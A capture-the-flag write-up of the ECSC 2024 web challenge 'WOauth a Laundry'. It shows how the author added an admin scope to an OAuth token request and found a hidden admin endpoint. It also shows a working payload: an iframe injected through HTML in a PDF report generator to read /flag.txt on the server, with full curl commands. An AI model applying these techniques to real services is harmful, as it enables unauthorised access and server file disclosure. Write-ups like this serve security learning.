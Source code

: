 # WOauth a Laundry

## Description

```
Welcome to our innovative business, the only ONE Laundry capable of completely sanitize your clothing by removing 100% of bacteria and viruses.

Flag is in /flag.txt.

Site: http://woauthalaundry.challs.open.ecsc2024.it
```

## Categories

- `web`

## Provided Files

- None

## Solve Process

Examining the signup process, we get a `GET` request to `/openid/authentication`. It is pretty long and has some notable values in it.

```text
http://woauthalaundry.challs.open.ecsc2024.it/openid/authentication?response_type=token%20id_token&client_id=ELX4Gr0HSRZx&scope=openid%20laundry%20amenities&redirect_uri=http://localhost:5173/&grant_type=implicit&nonce=nonce
```

We can filter out a few things, since it is some basic OAuth things you can look up. As of now, nothing really struck my interest specifically.

But after looking at the other requests, I noticed they were all getting the data from the same basepath, namely `/api/v1/`

```text
# Amenities
POST -> http://woauthalaundry.challs.open.ecsc2024.it/api/v1/amenities
# Laundry
POST -> http://woauthalaundry.challs.open.ecsc2024.it/api/v1/laundry
```

These yield a `JSON` response each. So why not poke around in that endpoint a bit. I tried a few paths like `/api/v1/users`, `/api/v1/openid` and so on.

After a bit of tinkering I found that `/api/v1/admin`, yielded not a `404`, but a `500`. Ok now this is interesting and led me to look back at the scope of the `/openid/authentication` request.

```
&scope=openid%20laundry%20amenities
```

This states the scope for the two `POST` endpoints mentioned above, but `/admin` is seemingly missing. So let's add it! Which I did using burpsuite to intercept the request made and it went through withput error. Since I don't really like BurpSuite that much, I proceeded with curl and simply grabbed the `Bearer` token that the auth request provided me with.

When trying to access the `/admin` endpoint now using a curl command:

```bash
curl -v -H "Authorization: Bearer 3520e56d3f6444e88185fd1ba967e0cd" "http://woauthalaundry.challs.open.ecsc2024.it/api/v1/admin"
```

We get a response!

```json
{
    "admin_endpoints": [
        {
            "exampleBody": {
                "requiredBy": "John Doe"
            },
            "methods": [
                "POST"
            ],
            "path": "/generate_report"
        }
    ]
}
```

Very informative, so we now know of the exisitance of another API endpoint, including its location and a sample body. How nice!

What was not so nice however is that I unsuccefully tried to access `/api/v1/generate_report`, `/generate_report` and `/admin/generate_report` without success.

Later on I tried replacing the `_` with an `-`, and that was indeed the problem. Since now `/api/v1/generate-report` when used with:

```bash
curl -X POST -v -d '{"requiredBy": "admin" }' -H "Authorization: Bearer 3520e56d3f6444e88185fd1ba967e0cd" -H "Content-Type: application/json" "http://woauthalaundry.challs.open.ecsc2024.it/api/v1/generate-report" --output out.pdf
```

Sent a response, namely a data stream which was of the `.pdf` format.

This PDF file contained the name provided by `requiredBy`. This led me to believe that I could surely somehow exploit this using some complex PDF trickery. But it was actually easier than that.

Apparently the `requiredBy` is directly interpreted HTML, which means you can pass `<script>alert()</script` and it will pass that successfully (although this example yields no output in the pdf).

Some quick googling later revealed that one can use an `iframe` tag to read a file. Since we know where the flag resides (`/flag.txt`), let's try to read that. So our payload would be the following.

```JSON
{
    "requiredBy": "<iframe id=\"textfile\" src=\"/flag.txt\"></iframe>"
}
```

And we can send that using the `curl` command above, and it actually yields us a PDF with an embedded `iframe` that reads the contents of the flag.

So we can also consider this challenge as solved.
